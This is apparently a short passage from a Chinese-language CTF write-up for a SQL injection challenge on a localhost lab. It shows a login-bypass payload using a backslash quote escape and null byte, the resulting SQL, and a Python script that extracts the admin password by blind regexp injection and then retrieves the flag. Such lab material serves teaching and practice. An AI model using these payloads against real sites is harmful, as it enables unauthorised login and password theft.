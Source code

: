 ```php
http://localhost/CTF/?user=\&pwd=||1;%00
对应SQL语句为：
select user from users where user='\' and pwd='||1;'
等价于：
select user from users where user='xxxxxxxxxxx'||1#
```

![20](20.png)

根据以上分析，我们可以写出如下python程序：

```python
import string
import requests
import re
char_set = '0123456789abcdefghijklmnopqrstuvwxyz_'
pw = ''
while 1:
    for ch in char_set:
        url = 'http://localhost/CTF/?user=\\&pwd=||pwd/**/regexp/**/"^%s";%%00'
        r = requests.get(url=url%(pw+ch))
        if 'Welcome Admin' in r.text:
            pw += ch
            print(pw)
            break
    if ch == '_': break
r = requests.get('http://localhost/CTF/?user=&pwd=%s' % pw)
print(re.findall('HRCTF{\S{1,50}}',r.text)[0])
```
